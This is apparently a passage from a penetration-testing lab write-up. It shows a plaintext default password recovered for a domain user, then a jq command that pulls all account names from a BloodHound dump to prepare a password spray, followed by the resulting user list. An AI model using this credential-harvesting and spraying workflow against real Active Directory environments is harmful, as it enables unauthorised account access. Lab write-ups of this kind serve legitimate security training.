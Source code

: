[*] DefaultPassword 
reflection.vl\Rhys.Garner:knh1gJ8Xmeq+uP

we got password so lets do passwords spray with full user

full users list

    ➜  bloodhound cat DC01_10.10.129.245_2025-02-04_211112_users.json | jq -r '.data[].Properties.samaccountname' > full_users

    ➜  bloodhound cat full_users 
    null
    dom_rgarner
    svc_web_prod
    svc_web_staging
    Deborah.Collins
    Dorothy.Rose
    Jeremy.Marshall
    Rhys.Garner
    Dylan.Marsh
    Abbie.Smith
    Bethany.Wright
    Craig.Williams
    labadm
    Michael.Wilkinson
    krbtgt
    Georgia.Price
    Guest
    Administrator

and booomm

![alt text](<../assets/images/Screenshot_2025-02-04_21_46_39.png>)

